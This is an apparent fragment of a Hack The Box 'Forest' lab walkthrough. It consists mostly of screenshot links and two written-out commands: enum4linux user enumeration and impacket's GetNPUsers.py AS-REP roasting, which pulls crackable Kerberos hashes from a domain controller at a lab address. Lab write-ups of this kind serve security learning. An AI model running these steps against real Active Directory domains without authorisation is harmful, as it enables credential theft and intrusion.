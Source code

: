 ```

```









```
root@kali:~# enum4linux -U 10.10.10.161
```

![image-20200314012629478](https://tva1.sinaimg.cn/large/00831rSTgy1gcstb88wzfj31e20u0tlk.jpg)





```
python '/root/impacket/examples/GetNPUsers.py' htb/ -usersfile '/root/Desktop/HTB-Forest/userlist.txt' -format john -dc-ip 10.10.10.161
```

![image-20200314012729813](https://tva1.sinaimg.cn/large/00831rSTgy1gcstc73yc6j328i0a4gss.jpg)

![Xnip2020-03-14_03-31-19](https://tva1.sinaimg.cn/large/00831rSTgy1gcswx9wvfhj31420c2tem.jpg)



![image-20200314033158503](https://tva1.sinaimg.cn/large/00831rSTgy1gcswxph6rnj31200ho7c9.jpg)



![image-20200314131501171](https://tva1.sinaimg.cn/large/00831rSTgy1gctdsdyq5dj31850u0jzw.jpg)